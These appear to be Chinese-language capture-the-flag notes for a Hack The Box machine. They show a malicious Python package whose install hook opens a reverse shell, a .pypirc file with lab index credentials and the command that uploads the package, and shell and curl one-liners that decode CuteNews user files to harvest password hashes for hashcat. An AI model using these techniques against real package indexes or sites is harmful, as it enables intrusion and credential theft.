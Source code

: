 ```python
      author_email='xekOnerR',
      url='http://sneakycopy.htb',
      license='MIT',
      zip_safe=False,
      cmdclass={'install': Exploit})
```
(`__init__.py` 为空文件，其余和 URL 一样)
```bash
└─$ tree revshell

revshell
├── README.md
├── revshell
│   └── __init__.py
├── setup.cfg
└── setup.py
```

远程打包库操作：新增凭据文件：
位置 ： **~/.pypirc**
```bash
└─$ cat ~/.pypirc

[distutils]
index-servers =
  sneaky
[sneaky]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```

建立监听后执行：
```bash
python setup.py sdist upload -r sneaky
```


### CuteNews 
**用户凭据信息：**
(使用 SHA2-256破解，  hashcat -m 1400)
获得 shell 可以访问：
```bash
cd /var/www/html/CuteNews/cdata/users/[first two characters of the md5 of the username].php

for f in *; do cat $f | grep -v 'php die'; echo; done | grep . | while read line; do echo $line | base64 -d; echo; done | grep '"pass"'
```

直接 curl 也可以：
```bash
curl -s http://10.129.212.55/CuteNews/cdata/users/lines | grep -v "php die" | while read line; do decode=$(echo $line | base64 -d); email=$(echo $decode | grep -Po '\w+@\w+\.\w+'); hash=$(echo $decode | grep -Po '\w{64}'); if [ -n "$hash" ]; then echo "$email:$hash"; fi; done
```
